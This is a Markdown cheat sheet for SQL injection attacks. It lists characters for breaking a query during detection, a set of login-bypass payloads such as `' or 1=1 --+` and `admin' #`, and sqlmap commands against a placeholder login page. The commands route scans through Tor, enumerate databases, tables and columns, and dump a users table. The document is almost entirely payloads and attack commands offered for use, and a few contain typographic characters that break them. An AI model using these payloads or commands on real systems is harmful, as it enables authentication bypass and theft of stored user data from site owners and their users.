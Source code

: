 # SQL INJECTIONS CHEAT SHEET

- Detection
    
    First thing to test for an SQL injection is to try to break the query, with the intention of getting the syntax of how SQL is getting input at the backend. This technique works in UNION/Error based SQL Injections, where we force the backend database to throw an error.
    
    Using this technique, we can somehow determine the backend query structure to efficiently exploit SQL Injection. Query can be broken by throwing various characters as input like :
    
    - `‘`
    - `“`
    - `‘)`
    - `‘))`
    - `“))`
    - `/`
    - `;`
    - `//`
    - `\`
    - `- -`
- Login Bypassing
    
    ### Login screens and forms containing SQL vulnerabilities can be bypassed using various SQLi.
    
    - `admin’ #`
    - `admin” #`
    - `admin’)) #`
    - `‘ or 1=1 --+`
    - `‘ or 1=1 #`
    - `" or " " "`
    - `" or true --`
    - `" or true --+`
    - `‘)) or true -- -`
    - `admin' or 1=1 or ''='`
    - `admin') or ('1'='1'--`
    - `admin') or '1'='1'/*`
    - `admin") or "1"="1`
    - `') or ('1'='1 --`
- SQLPMAP
    
    Easy Scanning option
    
    `sqlmap -u "http://testsite.com/login.php"`
    
    Scanning by using tor
    
    `sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5`
    
    Scanning by manually setting the return time
    
    `sqlmap -u "http://testsite.com/login.php" --time-sec 15`
    
    List all databases at the site
    
    `sqlmap -u "http://testsite.com/login.php" --dbs`
    
    List all tables in a specific database
    
    `sqlmap -u "http://testsite.com/login.php" -D site_db --tables`
    
    Dump the contents of a DB table
    
    `sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump`
    
    List all columns in a table
    
    `sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns`
    
-